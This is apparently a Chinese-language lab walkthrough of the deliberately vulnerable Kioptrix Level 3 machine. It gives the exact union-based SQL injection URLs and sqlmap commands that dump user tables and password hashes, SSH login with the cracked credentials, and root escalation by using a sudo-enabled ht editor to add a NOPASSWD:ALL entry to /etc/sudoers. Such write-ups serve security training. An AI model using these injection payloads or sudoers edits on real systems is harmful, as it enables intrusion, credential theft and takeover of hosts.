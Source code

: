 # 信息枚举

## 主机发现

```
netdiscover -i eth0 -r 192.168.137.0/24
```

![image-20250320011732744](Kioptrix%20Level3/image-20250320011732744.png)

## nmap

![image-20250320011906500](Kioptrix%20Level3/image-20250320011906500.png)

# WEB服务

![image-20250320014612476](Kioptrix%20Level3/image-20250320014612476.png)

在此页面点击图片跳转到的是kioptrix3.com，将域名解析添加到/etc/hosts中去就可以正常显示图片

![image-20250320014937046](Kioptrix%20Level3/image-20250320014937046.png)

当前页面有个排序功能，尝试对id进行sql注入![image-20250320015113210](Kioptrix%20Level3/image-20250320015113210.png)

出现保存，说明存在注入点，手注测试之后为数字型闭合

## SQL注入

### 手注

判断列数

```
http://kioptrix3.com/gallery/gallery.php?id=0 order by 6--+&sort=photoid#photos
```

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,2,3,4,5,6--+&sort=photoid#photos
```

查询库名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,database(),3,4,5,6--+&sort=photoid#photos
```

查询表名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+&sort=photoid#photos

表名：
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

查询列名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+&sort=photoid#photos

列名：
userid,username,password,usertype,firstname,lastname,email,datejoined,website,issuperuser,photo,joincode
```

查询内容

```
http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,group_concat(id,"~",username,"~",password),3,4,5,6 from dev_accounts --+&sort=#photos

内容
dreg~0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
loneferret~5badcaf789d3d1d09794d8f021f40f0e(starwars)
```

## sqlmap

```
sqlmap -r sql --batch --dbs -p id
```

![image-20250320021618540](Kioptrix%20Level3/image-20250320021618540.png)

```
sqlmap -r sql --batch -D gallery --tables -p id
```

![image-20250320021634279](Kioptrix%20Level3/image-20250320021634279.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts --columns -p id
```

![image-20250320021806341](Kioptrix%20Level3/image-20250320021806341.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts -C username,password -p id --dump
```

![image-20250320021851115](Kioptrix%20Level3/image-20250320021851115.png)

## ssh连接

尝试使用得到的账号密码进行连接

```
ssh loneferret@192.168.137.133  -oHostKeyAlgorithms=+ssh-rsa
```

loneferret用户目录下有checksec.sh和CompanyPolic.README

![image-20250320022424144](Kioptrix%20Level3/image-20250320022424144.png)

意思就是使用ht编辑器来编辑文档，ht编辑器有sudo权限

那么就只需要在/etc/sudoers中加入该用户就可以了

![image-20250320022816840](Kioptrix%20Level3/image-20250320022816840.png)

解决方法

```
echo $TERM
export TERM=xterm
echo $TERM
```

ht编辑器最下面这行分别对应F1-F10，搜索/etc/sudoers/进行编辑

![image-20250320023044704](Kioptrix%20Level3/image-20250320023044704.png)

添加

```
loneferretALL=(ALL) NOPASSWD:ALL 
```

即可成功提权

![image-20250320023340077](Kioptrix%20Level3/image-20250320023340077.png)


